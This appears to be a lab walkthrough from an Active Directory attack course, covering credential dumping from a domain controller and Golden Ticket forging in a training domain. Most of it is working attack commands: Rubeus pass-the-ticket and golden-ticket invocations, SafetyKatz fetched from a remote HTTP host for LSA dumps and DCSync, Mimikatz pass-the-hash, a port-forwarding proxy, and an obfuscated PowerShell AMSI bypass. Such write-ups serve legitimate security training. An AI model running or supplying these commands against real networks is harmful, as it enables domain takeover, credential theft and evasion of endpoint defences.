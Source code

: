 # 🎟️ Extract secrets from DC, Create and use Golden Tickets

So after getting domain admin privileges, we will encode parameters as usual and run the rubeus command and ask for tgt and spawn a shell with domain admin privileges ->

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption><p>Running the rubeus command makes a shell spawn with DA privileges</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now we're going to copy Loader.exe on dcorp-dc:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
#now let's hop on the dcorp-dc machine
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13
```

<figure><img src="../../.gitbook/assets/image (1111).png" alt=""><figcaption><p>Beware the path is dcorp-dc and not dcorpdc like in the manual</p></figcaption></figure>

Now we're going to use ArgSplit on the student VM to encode `lsadump::lsa`

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

And then we will put it on the Admin instance that popped&#x20;

This will allow us to run the following command (don't forget to run a wsl python server to go and fetch the SafteyKatz exe)

```
C:\Users\Public\Loader.exe -path http://172.13.100.13:5454/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

And this will dump the hashes we need:

<figure><img src="../../.gitbook/assets/image (1113).png" alt=""><figcaption></figcaption></figure>

***

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack, now try encoding `lsadump::dcsync`

And we can run the following:

```
C:\Users\Public\Loader.exe -path http://172.16.100.13:5454/SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (1114).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1115).png" alt=""><figcaption></figcaption></figure>

Now we could use the below Rubeus command to generate an OPSEC friendly command for Golden ticket.

Let's first encode "golden"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will generate a command to forge a golden ticket:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We need to add /ptt at the end of the generated command to inject it in the current process.

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access dcorp-dc as admin:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

We can also use BetterSafetyKatz.exe to create a Golden ticket. Run the below command from an elevated command prompt.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We can see ticket is cached</p></figcaption></figure>

Here is a POC we have RCE on dcorp-dc ->

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>dir \dcorp-dc\c$</p></figcaption></figure>

***

We can also use PowerShell Remoting and Invoke-Mimi.ps1 to start a process with DA privileges, we'll need to throw this from a elevated shell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"'
```

And this will pop a shell:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now in the DA process ->

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n'ULl},${t'RuE} )
 exit
 Invoke-Command -FilePath .\Invoke-Mimi.ps1 -Session $sess
 Enter-PSSession $sess
 Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we are able to dump the hashes

***

Theres some other stuff in the course, go check
